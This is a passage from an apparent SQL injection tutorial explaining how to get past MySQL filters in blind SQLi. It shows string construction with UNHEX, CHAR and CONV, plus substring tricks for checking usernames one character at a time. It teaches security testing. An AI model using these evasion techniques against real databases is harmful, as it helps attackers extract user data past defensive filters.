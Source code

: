 --> If the  *UNION* keyword is filtered, then we must switch to a blind SQLi scenario.

&nbsp;
#### Bypassing Function Filters

In the previous paragraph we have used mainly functions, but what if they are filtered?
It is possible to generate strings without the use of quotes.

Each DBMS provides its functions for doing this. In MySQL the *UNHEX* function is useful in translating hex numbers to strings:

```sql
..SUBSTR(USERNAME,1,1)=UNHEX(48)
..SUBSTR(USERNAME,1,2)=UNHEX(4845)
..
```

The respective *HEX* function is useful to convert to hexadecimal:

```sql
..HEX(SUBSTR(USERNAME,1,1))=48
..HEX(SUBSTR(USERNAME,1,2))=4845
..
```

We can also use the *CHAR* function:

```sql
..SUBSTR(USERNAME,1,1)=CHAR(72)
..SUBSTR(USERNAME,1,2)=CHAR(72,69)
..
```

MySQL offers an interesting method in returning the string representation of a number from two bases, which is *CONV*. the highest base we can use is 36. (Note that we cannot use it for Unicode chars):

```sql
CONV(10,10,36) // is 'a'
CONV(11,10,36) // is 'b'
```

We can mix the results with *upper* and *lower* functions to retrieve the represntation we want:

```sql
LOWER(CONV(10,10,36)) // is 'a'
LCASE(CONV(10,10,36)) // is 'a'
UPPER(CONV(10,10,36)) // is 'A'
UCASE(CONV(10,10,36)) // is 'A'
```

Some alternatives for constructing substrings:

```sql
[LEFT|RIGHT]('HELLO', 2) // HE or LO

[LPAD|RPAD]('HELLO', 6, '?') //?HELLO or HELLO?
[LPAD|RPAD]('HELLO', 5, '?') //HELLO
```
